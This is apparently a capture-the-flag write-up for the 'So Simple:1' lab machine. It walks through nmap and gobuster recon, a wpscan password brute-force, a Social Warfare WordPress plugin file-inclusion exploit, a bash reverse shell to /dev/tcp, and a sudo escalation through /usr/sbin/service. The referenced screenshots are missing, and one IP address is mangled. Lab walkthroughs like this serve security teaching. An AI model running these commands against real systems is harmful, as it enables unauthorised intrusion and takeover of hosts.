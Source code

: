 # So Simple:1

## Recon
1. Scanning

`nmap -sn -oA hostDiscovery 192.168.10.*`   -**used VirtualBox**

`nmap -T4 -O -A -sV -p- -sS -Pn -n -vvv -oA scan1 192.168.10.52`

![](1.png)

2. Enumeration

`gobuster dir -u http://192.168.10.52/ -w /usr/share/wordlists/dirb/common.txt`

`gobuster dir -u http://192.168.10.52/wordpress -w /usr/share/wordlists/dirb/common.txt`

![](2.png)

`wpscan --url "http://192.168.10.52/wordpress" --enumerate`

![](3.png)

now we brute forcing with username `max`

wpscan --url `"http://192.168.10.52/wordpress" -U max -p /usr/share/wordlist/rockyou.txt/`

![](4.png)

![](5.png)

**wordpress** has its own vuln database

search for ‘social warfare’ exploit
also we get some intersting

![](6.png)

3. Gaining Access

    1. setup the http server on my side

        `python3 -m http.server 80`


![](7.png)

`http://192.168.10.52/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://192.168.10.102/payload.txt`

![](8.png)

`bash -i >& /dev/tcp/192.168.56.102/8080 0>&1`

`<pre>system("bash -c 'bash -i >& /dev/tcp/192.168..102/8080 0>&1'")</pre>`

just refresh the webpage and get the shell

![](9.png)

![](10.png)

above string decoded but nothing get

we get max user's ssh key and logged in,

![](11.png)

Here we get the 1st user flag

![](12.png)


with help of `'usr/sbin/service'` we used GTFOBins

`sudo -u steven /usr/sbin/service ../../bin/bash`

and we get the steven shell.. also get the user flag.

![](13.png)

![](14.png)

 root flag is..

 ![](15.png)
